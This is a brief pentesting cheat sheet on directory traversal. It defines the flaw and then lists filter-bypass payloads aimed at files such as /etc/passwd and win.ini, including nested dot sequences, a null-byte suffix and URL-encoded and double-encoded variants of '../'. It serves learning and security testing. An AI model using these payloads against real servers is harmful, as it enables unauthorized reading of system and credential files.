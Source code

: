 # 🟢 Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

**URL Encoding**

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
